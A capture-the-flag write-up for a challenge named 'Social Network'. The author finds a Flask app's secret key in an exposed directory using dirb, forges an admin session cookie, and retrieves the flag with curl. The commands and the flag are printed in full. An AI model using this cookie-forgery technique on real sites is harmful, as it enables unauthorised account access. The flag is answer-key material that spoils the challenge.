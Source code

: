 # Social Network

Hi Expert,

the application running on `http://78.128.216.18:65181` was probably some kind of social network. Get access to the system and export any valuable data.

Good Luck!

---

The page is just a very simple login form. When entering any credentials, we receive
`invalid credentials`. The error messages is stored in a cookie:
```
Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsImludmFsaWQgY3JlZGVudGlhbHMiXX1dLCJ1c2VybmFtZSI6bnVsbH0.YW5UKw.p6vSskXDRZ_Y1jV9t27vw_0CpWg; HttpOnly; Path=/
```

Decoding the first part:
```
{"_flashes":[{" t":["message","invalid credentials"]}],"username":null}
```

A quick Google search tells us this is about [Flask flash messaging](https://flask.palletsprojects.com/en/2.0.x/patterns/flashing/).

The idea is simple, change the username from `null` to `admin`. However, the issue is that
the cookie is cryptographically signed. At this point, I took a hint:
> It will be useful to find and download the application.

Ok, let's try [dirb](https://www.kali.org/tools/dirb/) (directory busting):
```
$ dirb http://78.128.216.18:65181/
..

GENERATED WORDS: 4612

---- Scanning URL: http://78.128.216.18:65181/ ----
+ http://78.128.216.18:65181/login (CODE:405|SIZE:178)
+ http://78.128.216.18:65181/logout (CODE:302|SIZE:208)
+ http://78.128.216.18:65181/server-status (CODE:403|SIZE:281)
  ==> DIRECTORY: http://78.128.216.18:65181/web/

---- Entering directory: http://78.128.216.18:65181/web/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon Oct 18 21:17:04 2021
DOWNLOADED: 4612 - FOUND: 3
```

That looks good. There is listable folder `web`.

![](web.png)

[app.py](app.py) contains the secret key:
```
app.secret_key = 'f3cfe9ed8fae309f02079dbf'
```

I used https://github.com/noraj/flask-session-cookie-manager to sign the modified cookie:
```
$ python3 flask_session_cookie_manager3.py encode -s 'f3cfe9ed8fae309f02079dbf' -t '{"username":"admin"}'
eyJ1c2VybmFtZSI6ImFkbWluIn0.YW3VlA.bSKusGYMPMBiCH-RTjM0nSpGrw4
```

You must remove `_flashes:` from the cookie, otherwise the server responds with 500.

Finally, send the cookie and grab the flag:
```
$ curl -H 'Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.YW3VlA.bSKusGYMPMBiCH-RTjM0nSpGrw4' http://78.128.216.18:65181
<html>
<body>




<h1>My superprofile</h1>


        <a href="/logout">logout</a>
        <p>
        <pre>FLAG{r4Kt-Ws0C-J3b3-2EJg}</pre>




</body>
</html>
```